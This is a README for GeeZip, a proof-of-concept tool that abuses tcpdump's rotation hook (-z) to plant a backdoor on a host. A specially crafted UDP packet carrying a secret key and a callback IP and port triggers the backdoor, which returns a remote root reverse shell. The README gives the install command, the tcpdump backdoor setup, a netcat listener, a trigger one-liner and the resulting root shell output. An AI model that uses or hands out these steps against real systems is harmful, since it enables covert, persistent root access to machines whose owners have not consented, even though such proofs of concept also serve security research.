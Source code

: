# GeeZip

This is a proof of concept tool for abusing the logrotate functionality in tcpdump to execute a remote root shell.

## Building

Download and build geezip:

```
$ go install github.com/klustic/geezip
```

## Usage
GeeZip is designed to execute after a specially crafted UDP packet is received. The UDP packet must be in the following format:

```
+========+====+==+
|   K    | IP |P |
+========+====+==+

Where:
K : 8-byte sequence representing a secret key
IP: 4-byte sequence representing the callback IP
P : 2-byte sequence representing the callback port (big-endian)
```

On the commandline, run this command to prepare your tcpdump backdoor:
```
[root]# tcpdump -Uw output.pcap -z geezip -c 1 -G1 -i lo0 "udp[8:4]=0x6d616769 && udp[12:4]=0x636b6579"
```

On another commandline, prepare netcat to catch the reverse shell:
```
[user]$ nc -nvvl 8000
id

```

Finally, execute this from a third commandline to trigger the logrotate:
```
[user]$ echo -n 'magickey\x7f\x00\x00\x01\x1f\x40' | nc -u 127.0.0.1 9000
```

You should see output from the `id` command on your netcat terminal, and should be able to interact with the backdoor:
```
[user]$ nc -nvvl 8000
id
uid=0(root) gid=0(wheel) groups=0(wheel)...

w
16:37  up  7:10, 8 users, load averages: 1.75 1.78 1.86
USER     TTY      FROM              LOGIN@  IDLE WHAT
lustic   console  -                 9:28    7:09 -
lustic   s001     -                12:22      15 -zsh
lustic   s002     -                12:57       9 /bin/zsh
...

last -2
lustic    ttys007                   Mon Jul 29 16:29   still logged in
lustic    ttys006                   Mon Jul 29 14:22   still logged in

```

## Thanks
This uses Google's epic [gopacket project](https://github.com/google/gopacket)
